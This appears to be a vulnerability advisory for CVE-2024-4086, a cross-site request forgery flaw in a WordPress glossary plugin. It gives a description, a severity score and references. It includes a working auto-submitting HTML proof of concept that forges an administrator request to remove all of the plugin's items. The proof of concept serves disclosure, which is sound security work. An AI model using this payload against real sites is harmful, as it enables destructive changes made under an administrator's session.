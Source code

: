 ```yaml
---
layout: page
title: CVE-2024-4086
subtitle: CM Tooltip Glossary – Powerful Glossary Plugin <= 4.2.11 - Cross-Site Request Forgery
---
```

## Description
The CM Tooltip Glossary – Powerful Glossary Plugin plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 4.2.11. This is due to missing or incorrect nonce validation when saving settings. This makes it possible for unauthenticated attackers to change the plugin's settings or reset them via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
```
 4.3 (Medium) - [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N]([https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:H/PR:H/UI:N/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N))
```

## Affected Version
    <= 4.2.11

## PoC :
```
<html>
  <!-- Made by eneriiiii -->
  <body>
    <form action="http://103.189.234.57/wp-admin/admin.php?page=cmtt_settings" method="POST">
      <input type="hidden" name="cmtt&#95;removeAllItems" value="Remove&#32;all&#32;items" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Refrence
- https://plugins.trac.wordpress.org/changeset/3076616/enhanced-tooltipglossary/trunk/settings/CMTT_Settings.php?contextall=1&old=3029791&old_path=%2Fenhanced-tooltipglossary%2Ftrunk%2Fsettings%2FCMTT_Settings.php
- https://www.cve.org/CVERecord?id=CVE-2024-4086
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/enhanced-tooltipglossary/cm-tooltip-glossary-powerful-glossary-plugin-4211-cross-site-request-forgery

